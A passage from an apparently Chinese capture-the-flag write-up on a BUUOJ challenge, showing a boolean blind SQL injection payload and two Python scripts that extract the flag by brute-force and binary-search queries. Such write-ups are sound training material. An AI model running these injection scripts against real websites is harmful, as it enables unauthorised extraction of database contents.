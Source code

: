 **那么这题可以利用布尔盲注**

接着构造

```
id=if(mid((select(flag)from(flag)),1,1)='f',2,1) 测试flag第一位是不是f字母，返回true

```

那么我们可以写python代码实现读取flag

```python
import requests


url = "http://8622ee8e-2bad-4861-8340-9681a37cc067.node5.buuoj.cn:81/index.php"
string = ""
for i in range(1,45):
    str1 = "qwertyuiopasdfghjklzxcvbnm0123456789{}"
    for j in str1:
        sql = f"if(mid((select(flag)from(flag)),{i},1)='{j}',2,1)"
        # print(sql)
        data = {
            "id": sql
        }
        response = requests.post(url,data=data)
        if "Do you" in response.text:
            print(j)
            string = string + j

print(string)
```

二分盲注法

```python
import requests


url = "http://8622ee8e-2bad-4861-8340-9681a37cc067.node5.buuoj.cn:81/index.php"
string = []
for i in range(50):
    l, r, mid = 32, 127, (32+127)//2
    while l < r:
        sql = f"if(ascii(mid((select(flag)from(flag)),{i},1))>{mid},2,1)"
        data = {
            "id": sql
        }
        response = requests.post(url, data)
        if "Do you" in response.text:
            print(chr(mid))
            l = mid + 1
        else:
            r = mid
        mid = (l + r) // 2
    string.append(chr(int(mid)))

print("".join(string))
```
